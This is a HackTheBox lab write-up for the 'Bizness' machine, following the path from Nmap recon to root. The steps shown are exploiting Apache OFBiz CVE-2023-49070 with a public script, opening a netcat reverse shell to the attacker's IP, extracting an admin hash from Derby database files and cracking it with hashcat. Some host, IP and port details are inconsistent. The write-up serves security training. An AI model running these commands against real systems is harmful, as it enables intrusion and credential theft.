 ```yaml
---
title: Bizness
tags:
  - Linux
  - Apache
  - Brute-Forcing
  - HackTheBox
  - Easy
---
```

![](Pasted%20image%2020240501195939.png)

## Reconnaissance

Firstly, I added the new host to my known ones:

```shell
sudo echo "10.10.59.31 headless.htb" | sudo tee -a /etc/hosts
```

Secondly, I started performing an `Nmap` scan with:

```shell
nmap -sC -T4 -p- headless.htb > sC.txt

Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-01 18:33 CEST
Nmap scan report for bizness.htb (10.10.11.252)
Host is up (0.041s latency).
Not shown: 65531 closed tcp ports (conn-refused)
PORT      STATE SERVICE
22/tcp    open  ssh
| ssh-hostkey: 
|   3072 3e:21:d5:dc:2e:61:eb:8f:a6:3b:24:2a:b7:1c:05:d3 (RSA)
|   256 39:11:42:3f:0c:25:00:08:d7:2f:1b:51:e0:43:9d:85 (ECDSA)
|_  256 b0:6f:a0:0a:9e:df:b1:7a:49:78:86:b2:35:40:ec:95 (ED25519)
80/tcp    open  http
|_http-title: Did not follow redirect to https://bizness.htb/
443/tcp   open  https
| ssl-cert: Subject: organizationName=Internet Widgits Pty Ltd/stateOrProvinceName=Some-State/countryName=UK
| Not valid before: 2023-12-14T20:03:40
|_Not valid after:  2328-11-10T20:03:40
| tls-alpn: 
|_  http/1.1
|_http-title: BizNess Incorporated
| tls-nextprotoneg: 
|_  http/1.1
|_ssl-date: TLS randomness does not represent time
39467/tcp open  unknown
```

Then I went to take a look to the webpage and its code:

![](Pasted%20image%2020240501200309.png)

I did not found anything into it, so I decided to perform a `dirsearch` to the web
- More info in [dirsearch 📁](/notes/Tools/dirsearch.md)

![](Pasted%20image%2020240501200559.png)

I found the direction `/control/login`, which landed me into a login page:

![](Pasted%20image%2020240501200706.png)

> Obviously the `admin:admin` didn't work :<

After analyzing the petition with Burp and obtained nothing, I decided to search for `Apache OFBiz` and discovered the **CVE-2023-49070**

## Weaponization

Consulting in Github I found [Apache OFBiz Authentication Bypass](https://github.com/jakabakos/Apache-OFBiz-Authentication-Bypass/tree/master?tab=readme-ov-file) exploit, which I cloned and executed:

## Exploitation


```shell
python3 exploit.py --url https://bizness.htb                                         
[+] Scanning started...
[+] Apache OFBiz instance seems to be vulnerable.
```

Now I try to obtain a shell and stabylize it:
- More info in [Reverse shells 👾](/notes/reverse_shells.md)

```shell
python3 exploit.py --url https://bizness.htb --cmd 'nc -e /bin/bash 10.10.14.110 666'
```

And I got a shell:

```shell
└─$ nc -lvp 777
listening on [any] 777 ...
connect to [10.10.14.110] from bizness.htb [10.10.11.252] 60690
python3 -c "import pty; pty.spawn('/bin/bash')"
ofbiz@bizness:/opt/ofbiz$ export TERM=xterm
export TERM=xterm
ofbiz@bizness:/opt/ofbiz$ ^Z
zsh: suspended  nc -lvp 777
                                                                                                                    
┌──(gitblanc㉿playbook)-[~/HackTheBox]
└─$ stty raw -echo; fg
[1]  + continued  nc -lvp 777
                             ls
APACHE2_HEADER  DOCKER.md                INSTALL              README.adoc
applications    docs                     lib                  runtime
build           framework                LICENSE              SECURITY.md
build.gradle    gradle                   linpeas.sh           settings.gradle
common.gradle   gradle.properties        NOTICE               themes
config          gradlew                  npm-shrinkwrap.json  VERSION
docker          gradlew.bat              OPTIONAL_LIBRARIES
Dockerfile      init-gradle-wrapper.bat  plugins
ofbiz@bizness:/opt/ofbiz$
```

### User flag

```shell
ofbiz@bizness:/opt/ofbiz$ cat /home/ofbiz/user.txt 
XXXXXXXXXXXXXXXXXXXXXXXX
```

## Privilege Escalation

Now, as I know that Apache OFBiz is running, i read a little their [docs](https://cwiki.apache.org/confluence/display/OFBIZ/Home), and find out that they use a Derby database, so I searched for it:

```shell
find / -type d -iname "derby" 2> /dev/null

/home/ofbiz/.gradle/caches/modules-2/files-2.1/org.apache.derby/derby
/home/ofbiz/.gradle/caches/modules-2/metadata-2.69/descriptors/org.apache.derby/derby
/opt/ofbiz/runtime/data/derby
```

I found a binary and a lot of `.dat` files on the `/seg0` directory, so I tried to find the admin password by using the following command:

```shell
find *.dat | xargs grep -a -i "currentPassword="
c54d0.dat:  
<eeval-UserLogin createdStamp="2023-12-16 03:40:23.643" createdTxStamp="2023-12-16 03:40:23.445" currentPassword="$SHA$d$uP0_QaVBpDWFeo8-dRzDqRwXQ2I" enabled="Y" hasLoggedOut="N" lastUpdatedStamp="2023-12-16 03:44:54.272" lastUpdatedTxStamp="2023-12-16 03:44:54.213" requirePasswordChange="N" userLoginId="admin"/>
```

> It also works by doing `strings dir.txt | grep SHA`, but you should have known previously the format of the hash

As I didn't know the hashing function, I went to see the source code of [Apache OFBiz](https://github.com/apache/ofbiz/blob/trunk/framework/base/src/main/java/org/apache/ofbiz/base/crypto/HashCrypt.java) and found the hash function that first performed a hex Encoding and then a base64 encoding:

![](Pasted%20image%2020240501203114.png)

![](Pasted%20image%2020240501203204.png)

Then, after knowing this I decoded it on [Cyberchef](https://cyberchef.org/)

![](Pasted%20image%2020240501203313.png)

Now I did brute force to it using **Hashcat** (using `d` as the salt):
- For more info check [Crack Password Hashes (Sites) 🤡](/notes/crack_password_hashes.md)

```shell
hashcat -a 0 -m 120 b8fd3f41a541a435857a8f3e751cc3a91c174362:d /usr/share/wordlists/rockyou.txt --show

b8fd3f41a541a435857a8f3e751cc3a91c174362:d:monkeybizness
```

## Root flag

Now I logged as root and got the flag:

```shell
su root

cat /root/root.txt
XXXXXXXXXXXXXXXXXXXXXXXX
```

==Machine pwned==
